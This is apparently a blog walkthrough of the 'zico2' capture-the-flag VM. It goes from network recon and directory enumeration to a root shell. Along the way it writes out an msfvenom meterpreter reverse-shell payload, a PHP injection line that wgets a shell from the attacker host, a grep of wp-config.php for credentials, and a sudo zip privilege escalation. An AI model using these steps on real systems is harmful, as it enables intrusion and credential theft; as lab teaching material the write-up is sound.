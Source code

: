 ```yaml
---
layout: post
title: zico2
slug: zico2
name: zico2
---
```


# zico2

## Recon:

Start off with netdiscover to find the host:

{% highlight bash %}
 Currently scanning: Finished!   |   Screen View: Unique Hosts

 6 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 360
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.171.1   00:50:56:c0:00:01      1      60  VMware, Inc.
 192.168.171.135 00:0c:29:a2:b5:1b      2     120  VMware, Inc.
 192.168.171.254 00:50:56:e5:61:61      3     180  VMware, Inc.
{% endhighlight %i}

Next run nmap and find ports 22, 80, 111 open.

Time to run gobuster using wordlists generated from dirbuster and seclists:

{% highlight bash %}
screen -S gobuster go run ~/go/src/gobuster -w wordlistzico.txt -u http://192.168.171.135

// (Status: 200)
//js/ (Status: 200)
//css/ (Status: 200)
//?q=user/register/ (Status: 200)
//?q=user/login/ (Status: 200)
//?q=search/ (Status: 200)
//?q=user/password/ (Status: 200)
//?q=comment/reply/ (Status: 200)
//?q=node/add/ (Status: 200)
//?q=admin/ (Status: 200)
//index (Status: 200)
//img/ (Status: 200)
//?q=user/logout/ (Status: 200)
//?q=filter/tips/ (Status: 200)
//?level=12 (Status: 200)
//? (Status: 200)
/?&what= (Status: 200)
//?q=contact/ (Status: 200)
//?q=logout/ (Status: 200)
//?q=* (Status: 200)
//?msk (Status: 200)
//?favorites (Status: 200)
//?* (Status: 200)
//view.php (Status: 200)
/js (Status: 301)
/css (Status: 301)
/img (Status: 301)
/tools (Status: 200)
/index (Status: 200)
/view (Status: 200)
/dbadmin (Status: 301)
/vendor (Status: 301)
/package (Status: 200)
/LICENSE (Status: 200)
/img (Status: 301)
/index (Status: 200)
/package (Status: 200)
/view (Status: 200)
/tools (Status: 200)
{% endhighlight %}

The dbadmin loads up a sql web admin, try admin as the pass and login successfully.

Now to lookup this version of phpliteadmin, 1.9.3

{% highlight bash %}
searchsploit phpliteadmin

PHPLiteAdmin 1.9.3 - Remote PHP Code Injection | exploits/php/webapps/24044.txt
{% endhighlight %}

Looks like it worked after following steps from the exploit description and we have a way to get a reverse shell going.

Now to generate a PHP meterpreter script:

{% highlight bash %}
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.171.136 LPORT=4444 R > shell.php
{% endhighlight %}

Now to get a shell onto the box by adding a malicious DB column:

{% highlight php %}
<?php system("wget http://192.168.171.136:8000/shell.php -O /usr/databases/shell.php");?>
{% endhighlight %}

cat /home/zico/wordpress/wp-config.php | grep -i 'user' && cat /home/zico/wordpress/wp-config.php | grep -i 'pass'

{% highlight bash %}

zico@zico:~$ sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip

sudo -u root zip /tmp/exploit.zip /tmp/exploit -T --unzip-comand="sh -c /bin/bash"

{% endhighlight %}



Get flag:

{% highlight bash %}

root@zico:~# cd /root/
root@zico:/root# ls
flag.txt
root@zico:/root# cat flag.txt
#
#
#
# ROOOOT!
# You did it! Congratz!
#
# Hope you enjoyed!
#
#
#
#

{% endhighlight %}
